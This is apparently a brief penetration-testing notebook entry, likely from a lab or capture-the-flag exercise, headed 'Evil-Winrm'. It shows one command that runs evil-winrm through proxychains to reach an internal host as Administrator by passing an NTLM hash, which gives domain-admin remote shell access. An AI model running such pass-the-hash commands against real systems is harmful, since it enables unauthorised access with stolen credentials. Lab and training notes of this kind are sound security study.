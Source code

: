 ##### Evil-Winrm
#evil-winrm 
- evilwinrm as `DA`
```bash
proxychains evil-winrm -i 172.16.0.2 -u Administrator -H 731c191234d0934dee79dd57169c6da7  
```


